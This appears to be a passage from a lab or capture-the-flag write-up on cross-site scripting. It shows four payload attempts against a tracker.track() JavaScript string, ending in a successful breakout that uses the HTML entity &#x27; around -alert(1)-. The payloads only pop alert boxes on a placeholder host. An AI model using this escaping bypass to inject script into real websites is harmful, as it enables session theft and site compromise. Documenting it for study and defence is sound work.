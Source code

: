 
---

## 4️⃣ Exploitation Steps

### 1. First Attempt:

Payload: `https://test.com?';alert(0);//`  
Result:

```js
tracker.track('https://test.com?\';alert(0);//');
```

❌ Failed due to server-side escaping (`\'` instead of `'`).

---

### 2. Attempting to Counteract Escaping by Adding Extra `\`:

Also failed due to backslash repetition.

---

### 3. Attempting to Use HTML Entity Alternative for `'`:

Payload: `https://test?&#x27;alert(1)//;`  
❌ Failed — the entity still undergoes escaping.

---

### 4. **Successful Attempt:**

Payload:

```text
https://test?&#x27;-alert(1)-&#x27;
```

Final Analysis After Code Insertion:

```js
tracker.track('https://test?&#x27;-alert(1)-&#x27;');
```

After HTML Entity Interpretation:

```js
tracker.track('https://test?'-alert(1)-'');
```

### How It Works:

1. `&#x27;` = `'` → Closes the original string.
    
2. `-alert(1)-` → Executed as standalone JavaScript code.
    